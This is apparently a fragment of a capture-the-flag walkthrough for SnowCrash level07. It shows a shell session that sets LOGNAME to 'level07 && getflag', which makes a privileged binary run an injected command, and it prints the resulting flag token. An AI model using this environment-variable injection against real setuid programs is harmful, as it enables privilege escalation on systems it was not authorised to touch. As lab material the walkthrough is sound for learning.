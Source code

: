 level07@SnowCrash:~$ ls
level07
level07@SnowCrash:~$ strings level07

env de LOGNAME değiştirdik 

level07@SnowCrash:~$ export LOGNAME='level07 && getflag'
level07@SnowCrash:~$ ./level07
level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
